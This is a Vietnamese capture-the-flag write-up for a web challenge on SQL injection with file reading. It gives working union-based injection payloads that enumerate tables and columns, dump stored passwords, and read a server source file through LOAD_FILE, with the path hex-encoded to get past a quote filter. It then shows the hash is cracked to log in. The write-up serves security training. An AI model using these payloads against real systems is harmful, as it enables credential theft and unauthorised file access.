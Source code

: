 ```diff
@@ Web-server Challenge @@
```

## SQL injection - File reading [40 Points]

* Challenge cung cấp cho ta một trang đăng nhập như sau

  ![8](img/8.jpg)

* Thử các payload SQLi vào phần login thì thấy không có khả năng, ta thử chuyển sang tab Member

  ![8-1](img/8-1.jpg)

* Chú ý thì ta thấy nó nhận tham số id để tìm kiếm user, vì khi thay đổi giá trị id, nó hiện ra response như bên dưới

  ![8-2](img/8-2.jpg)

* Giờ ở đây ta có thể thử Union Based/Blind SQLi/Error Based/Time Based SQLi. Thử từ cái dễ nhất là Union Based, ta có ngay kết quả như sau

  ![8-3](img/8-3.jpg)

* Thử tăng số cột lên thì ta biết table đang có 4 cột

  ```2 union select 1,2,3,4 --```

  ![8-4](img/8-4.jpg)

* Sửa lại payload để lấy table name ta có table name là member

  ```2 union select 1,2,3, (select group_concat(table_name) from information_schema.tables) --```

  ![8-5](img/8-5.jpg)

* Sau đó lấy Column name

  ```2 union select 1,2,3, (select group_concat(column_name) from information_schema.columns) --```

  ![8-6](img/8-6.jpg)

* Và có được password

  ```2 union select 1,2,3, (select group_concat(member_password) from member) --```

  ![8-7](img/8-7.jpg)

* Nhưng chưa hết, decode chuỗi base64 này ta vẫn không có được password vì nó không phải plain-text. Tới đây, theo như tên của challenge thì ta buộc phải đọc file để biết server đang xử lý chỗ này như thế nào. Thử search read file mysql thì ta có hàm LOAD_FILE()

  ![8-8](img/8-8.jpg)

* Vì server filter cái dấu nháy đơn và nháy kép, nên ta sẽ truyền bằng mã hex, tên file muốn đọc là /challenge/web-serveur/ch31/index.php tương đương với hex là ```0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870```.Thử đọc file ta có kết quả sau

  ```2 union select 1,2, 3,LOAD_FILE(0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870)--```

  ![8-9](img/8-9.jpg)

* Ta thấy server nhận password xong hash nó bằng sha1, sau đó so sánh với kết quả phép xor (key, base64decode(member_password)). Vậy trước tiên ta xor key và kết quả decode của cái chuỗi member_password lúc nãy để lấy sha1(pass)

  ![8-10](img/8-10.jpg)

* Tìm tool giải mã sha1 trên ta có pass để đăng nhập cũng như vượt qua challenge

  ![8-11](img/8-11.jpg)
